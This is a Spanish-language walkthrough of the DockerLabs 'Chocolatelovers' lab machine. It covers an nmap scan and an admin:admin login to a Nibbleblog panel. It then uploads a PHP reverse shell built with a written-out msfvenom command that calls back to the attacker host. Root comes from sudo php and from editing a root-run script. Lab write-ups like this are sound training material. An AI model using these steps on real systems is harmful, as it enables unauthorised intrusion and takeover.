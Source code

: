 ```yaml
---
title: Chocolatelovers - DockerLabs
published: true
categories: DockerLabs
---
```


 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Fácil       | ElPinguinoDeMario | 


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/bfd9e0e3-2b4d-42be-b144-3ed39924fefa)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 80 `HTTP`

## Web

![image](https://github.com/romabri/romabri.github.io/assets/51706860/fb5d58ca-8a81-4384-b634-b8b8907fa723)

Vamos a mirar en el codigo fuente.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/15bcd4a1-3e83-4d7a-a84f-cc6ddd24d93e)

Esto es posiblemente una ruta de la web vamos a ver que hay

![image](https://github.com/romabri/romabri.github.io/assets/51706860/884137c1-2ece-4a50-9345-6dcc177e240a)

Tenemos un enlaze que nos lleva al admin.php nos encontramos con un panel de acceso

![image](https://github.com/romabri/romabri.github.io/assets/51706860/d419a092-2b27-49b6-9f5d-6a8adcd7cf63)

Si ponemos admin admin accedemos

![image](https://github.com/romabri/romabri.github.io/assets/51706860/f735b18e-139e-4b90-a288-d222e587df93)

Si vamos a Plugins hemos de instalar el plugin My image, y ahi haremos lo siguiente:

![image](https://github.com/romabri/romabri.github.io/assets/51706860/f7bc22a4-cdfa-4436-8554-e854239476d3)

Generaremos un payload con msfvenom para generar una reverse shell en un archivo php de la siguiente manera

msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > pwned.php

Este archivo lo subiremos dandole a browse y save changes.

Una vez hecho esto si investigamos un poco por la web vemos que en este repositorio estan los plugins http://172.17.0.2/nibbleblog/content/private/plugins/

![image](https://github.com/romabri/romabri.github.io/assets/51706860/75627b58-ee4c-4b21-81b5-9202645d5aa1)

El archivo malicioso se nos ha subido es el image.php.

Ahora vamos con net cat a quedarnos en escucha y veremos si nos manda una reverse shell.

## Intrusión

![image](https://github.com/romabri/romabri.github.io/assets/51706860/557c85c6-c4d0-493f-8510-63fcce632fd3)

Ya estamos dentro de la maquina
Si hacemos sudo -l vemos que como el usuario chocolate podemos ejecutar el php vamos a buscar como escalar con PHP

![image](https://github.com/romabri/romabri.github.io/assets/51706860/4d7c1a8d-a85a-41f1-969d-a3d5310b67c8)

## Escalada de privilegios

![image](https://github.com/romabri/romabri.github.io/assets/51706860/db03520a-1046-4e53-8226-d6d59e2d8ed7)

Ya hemos escalado 
Si hacemos un ps -e -f
Vemos un script que lo ejecuta root que no hay nada dentro vamos a intentar escalar a traves de ahí.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/a05e06e0-4587-4753-ab45-ee98faee46f1)

Modificamos el script introduciendo una reverse-shell.php de las webshells la ip la ponemos a nuestra maquina atacantes y el puerto por ejemplo ponemos el 1122 y si esperemos un momento...

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8c5b94b6-c189-4340-a44a-a94a65d4c090)

YA SOMOS ROOT!




















